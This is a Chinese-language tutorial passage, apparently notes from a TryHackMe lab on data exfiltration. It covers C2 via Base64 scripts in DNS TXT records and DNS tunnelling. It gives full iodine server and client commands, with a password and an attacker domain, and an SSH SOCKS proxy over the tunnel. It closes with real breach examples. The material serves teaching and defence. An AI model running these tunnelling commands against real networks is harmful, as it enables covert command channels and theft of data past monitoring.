 ### C2通信

我们需要将脚本编码为 Base64 表示形式，然后使用编码脚本的内容创建您控制的域名的 TXT DNS 记录

![在这里插入图片描述](https://img-blog.csdnimg.cn/a5f1c2d1d2974f2c9895bac452d19b0d.png)

```bash
dig txt domain
```

### DNS 隧道

![在这里插入图片描述](https://img-blog.csdnimg.cn/682c8fb3dc4e4a3089f711f98eff8947.png)

**此技术也称为 DNS 上的 TCP，攻击者使用 DNS 数据泄露技术通过 DNS 协议封装其他协议，例如 HTTP 请求。DNS 隧道建立了一个通信通道，在该通道中连续发送和接收数据。**

我们将使用[iodine](https://github.com/yarrick/iodine)工具来创建我们的 DNS 隧道通信.

服务端（攻击机）

```bash
thm@attacker$ iodined -c -P thmpass 10.1.1.1/24 att.tunnel.com
```

- -f 参数用于在前台运行服务器。
- -c 参数是跳过检查每个 DNS 请求的客户端 IP 地址和端口。
- -P 参数用于设置用于身份验证的密码。
- 10.1.1.1/24 参数用于设置新网络接口 （dns0） 的网络 IP。服务器的 IP 地址为 10.1.1.1，客户端的 IP 地址为 10.1.1.2。
- att.tunnel.com 是我们之前设置的名称服务器。

客户端（跳板机）

```bash
thm@jump-box:~$ iodine -P thmpass att.tunnel.com
```

请注意，通过网络 10.1.1.1/24 进行的所有通信都将通过 DNS。我们将使用动态端口转发功能的 -D 参数来使用 SSH 会话作为代理。请注意，我们使用 -f 参数来强制 ssh 进入后台。-4 参数强制 ssh 客户端仅在 IPv4 上绑定。

攻击机

```bash
root@attacker$ ssh thm@10.1.1.2 -4 -f -N -D 1080
```

## 泄露真实例子

- SunTrust Bank 发生了一次内部数据泄露事件，在多达 1 万条客户敏感数据（包括姓名、地址、电话号码和帐户余额）被盗后，发现了离开网络的可疑流量。
- 特斯拉是内部人员数据泄露的受害者，这导致了数据泄露。2018年，一名员工向第三方泄露了千兆字节的机密照片和代码制造操作系统，包括其他个人和敏感数据。
- 通济隆是世界领先的货币兑换专家。2020 年，它是名为 Sodinokibi 的勒索软件的受害者。攻击者利用其中一个内部服务器的未修补漏洞。攻击者利用其中一台内部服务器中未修补的漏洞，允许他们使用其中一种渗透技术将敏感数据泄露出组织的网络。敏感数据包括个人身份信息 （PII） 和财务信息。